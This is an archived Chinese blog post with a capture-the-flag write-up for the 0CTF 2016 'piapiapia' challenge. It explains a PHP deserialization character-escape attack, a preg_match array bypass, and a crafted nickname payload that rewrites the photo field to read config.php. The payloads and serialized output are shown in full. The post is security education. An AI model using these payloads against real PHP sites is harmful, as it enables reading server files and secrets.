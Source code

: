 <!--yml
category: 未分类
date: 2022-04-26 14:35:16
-->

# [0CTF 2016] piapiapia 题解_lonmar~的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_45551083/article/details/113249182](https://blog.csdn.net/weixin_45551083/article/details/113249182)

## [0CTF 2016]piapiapia

考察 **反序列化字符逃逸**

扫目录可以扫到源码,www.zip

然后下载下来审计.
大致功能就是注册,修改信息.

而和数据库有关的操作都限制的很严格,基本不可能有注入.
在update_profile处使用preg_match进行过滤,数组绕过即可.
![在这里插入图片描述](img/8ce3c5ac5e19cd5d37da76f8cf281714.png)

而下面profile数据是以序列化的格式存储进数据库的.
![在这里插入图片描述](img/80a51c6a89e31068edd8c388509db7ff.png)

然后牢记反序列化数据+过滤函数可能会有奇妙的反应.

在update_profile处,题目是对这个传进去的序列化数据过滤过的.
![在这里插入图片描述](img/afe2962e6194d769adc93f1439c5a351.png)

然后过滤函数
![在这里插入图片描述](img/b49180392d045faac1f2126e4467a77f.png)

会把匹配到的select等替换为hacker.

然后注意到where是五个字符的hacker是六个字符,会有字符减少的情况.所以这里存在反序列化字符逃逸,且属于字符变多的情况

> 参考 https://blog.csdn.net/weixin_45551083/article/details/111085944

这就意味着可以控制反序列化数据.然后注意到profile里面还有一个photo.可以利用photo读文件
![在这里插入图片描述](img/84c4588c08c5f98cb12e3ada2878ed94.png)

然后又知道flag在config.php

预期payload

```
<?php
$profile['phone']=123456789;
$profile['email']='123456789@qq.com';
$profile['nickname']='lonmar';
$profile['photo']='config.php';
var_dump(serialize($profile)); 
```

从nickname传参数
![在这里插入图片描述](img/f88f86882a23152943454a541d73d4d1.png)

这样需要传的数据就是`lonmar";s:5:"photo";s:10:"config.php";}`
需要让`";s:5:"photo";s:10:"config.php";}`逃逸掉,一共33个字符
所以需要传33个where进去
所以payload就是:
`'where'*33` +`'";s:5:"photo";s:10:"config.php";}'`

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";} 
```

![在这里插入图片描述](img/0dc497d095a42df8ee60bb06900c0022.png)

但是发现最后会有问题.
![在这里插入图片描述](img/a5836555087f357df60ac738fda2f516.png)

原因在于使用nickname[]=xxx 来bypass.序列化格式已经发生了改变
下面是两种传参,序列化数据的区别

1.  `phone=1&email=1&nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}`

```
string(337) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";a:1:{i:0;s:198:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}"
string(370) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";a:1:{i:0;s:198:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}" 
```

2.  `phone=1&email=1&nickname=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}`

```
string(327) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";s:198:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}"
string(360) "a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";s:198:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:5:"photo";s:10:"config.php";}";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}" 
```

要闭合掉nickname数组
所以重新构造的payload:
`'where'*34` +`'";}s:5:"photo";s:10:"config.php";}'`

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";} 
```

![在这里插入图片描述](img/c190adfa472a0b2c7194036ec540187c.png)

![在这里插入图片描述](img/30e5b5ed7cc5a250dbbd9b7e9e07fc04.png)

![在这里插入图片描述](img/26d4da16deec6ef535e318903f24237b.png)